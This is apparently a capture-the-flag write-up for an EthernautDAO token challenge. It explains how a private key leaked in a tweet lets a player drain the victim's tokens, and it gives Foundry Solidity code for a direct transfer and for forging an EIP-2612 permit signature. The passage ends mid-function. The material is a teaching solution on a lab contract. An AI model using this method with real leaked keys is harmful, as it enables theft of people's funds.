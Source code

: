 The `constructor` of the contract initialize the `ERC20` and `ERC20Permit` inherited contracts, set up the `admin`, `minter` and `pauser` role and mint `1` token to the `msg.sender` (deployer)

Then you some functions like

- `pause` to pause each token transfer (see `_beforeTokenTransfer`)
- `unpause` to unpause the contract
- `mint` to mint tokens
- `_beforeTokenTransfer` implements the `ERC20` hook that is called when `mint`, `burn`, `transfer` and `transferFrom` are called. This implementation of the hook will revert if the contract is in a **paused** state

The solution does not come by exploiting the contract itself, but by exploiting the **leaked** information contained in the tweet.

**We have access to a private key of a user.** This mean that we can sign the transaction as if we were the user and drain his/her funds from the wallet.

To get the wallet associated to the private key, you can simply use Foundry cheatcode [vm.addr](https://book.getfoundry.sh/cheatcodes/addr) that takes a private key as parameter and return the address associated to it.

By executing `address walletAddress = vm.addr(WALLET_PRIVATE_KEY);` we now know that the address associated to it is **`0xf39fd6e51aad88f6f4ce6ab8827279cfffb92266`**.

Does this address ring some bell? It's the same one that received the EthernautDAOToken minted by the first three transactions done by the contract's deployer!

By having access to the private key of the address, we can follow two solutions to drain the user's balance:

- call `transfer` on the token contract by signing the transaction with the private key
- have some fun and use the `permit` function that the contract is implementing and transfer those tokens from our own address (as a player)

Let's see those two solutions:

```solidity
/// @notice Solution 1: access directly as the final user
function solutionOne(
    address walletAddress,
    address player,
    uint256 walletBalance
) private {
    vm.startPrank(walletAddress);
    // simply transfer the tokens
    ethernautDaoToken.transfer(player, walletBalance);
    vm.stopPrank();
}

/// @notice Solution 2: access directly as the final user
function solutionTwo(
    address walletAddress,
    address player,
    uint256 walletBalance
) private {
    // Set a deadline in the future otherwise the `permit` call will revert
    uint256 deadline = block.timestamp + 1;

    // Reconstruct the EAO signed message to be used by the `permit` function when called by the player account
    bytes32 permitTypeHash = keccak256(
        "Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)"
    );

    bytes32 erc20PermitStructHash = keccak256(
        abi.encode(permitTypeHash, walletAddress, player, walletBalance, 0, deadline)
    );
```